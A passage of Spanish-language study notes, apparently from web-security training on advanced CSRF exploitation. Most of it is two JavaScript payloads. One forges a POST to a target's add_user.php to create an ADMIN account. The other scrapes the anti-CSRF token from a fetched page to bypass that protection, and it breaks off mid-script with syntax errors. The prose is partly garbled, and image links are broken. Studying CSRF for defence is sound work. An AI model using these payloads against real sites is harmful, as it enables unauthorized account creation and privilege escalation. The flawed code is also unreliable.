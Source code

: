 *   La implementación requiere tanto un bucle, para generar el número de solicitudes necesarias, como una función que genere las mismas solicitudes (excepto para el token anti-CSRF)

![[Pasted image 20240311153019.png]]
![](broken-reference.md)

* En algunos casos, la forma de vuln puede estar utilizando GET. Podemos usar **XHR** de nuevo; También hay una oferta de otros métodos nativos (IMG, etc.)
![[Pasted image 20240311153046.png]]
Algunas implementaciones en el mundo real de la anti-CSRF parecen utilizar una conocida solicitud del Ajax para obtener el token.

> Si u pudiera **iframe** esa funcionalidad particular, podrías reducir un token válido aprovechando JavaScript y dado que cada char tiene un tamaño diferente.

## Video's Notes

### Advanced CSRF Exploitation - parte 1

Este es un bonito sitio de compras.

```js
<script type="text/javascript">

var url = "http://targeturl.site/add_user.php";
var params = "name=Talent&surname=John&email=talent%40site.com&role=ADMIN&submit=";
# u can grab this param via BURP

var CSRF=new XMLHttpRequest();
CSRF.open("POST",url, true);
CSRF.withCredentials = "true";
CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// u can grab the content-type via BURP
CSRF.send(params);
</script>
```

#### bypass token

```js
<script type="text/javascript">

function addUser(token)
{
  var url = "http://targeturl.site/add_user.php";
  var params = "name=Talent&surname=John&email=talent%40site.com&role=ADMIN&submit=&CSRFToken=" + token;

  var CSRF=new XMLHttpRequest();
  CSRF.open("POST",url, true);
  CSRF.withCredentials = "true";
  CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  CSRF.send(params);
}

// extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function(){
  if(XHR.readyState == 4{
    var htmlSource = XHR.reponseText; // the source of users

    // extract the token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById("CSRFToken").value;
```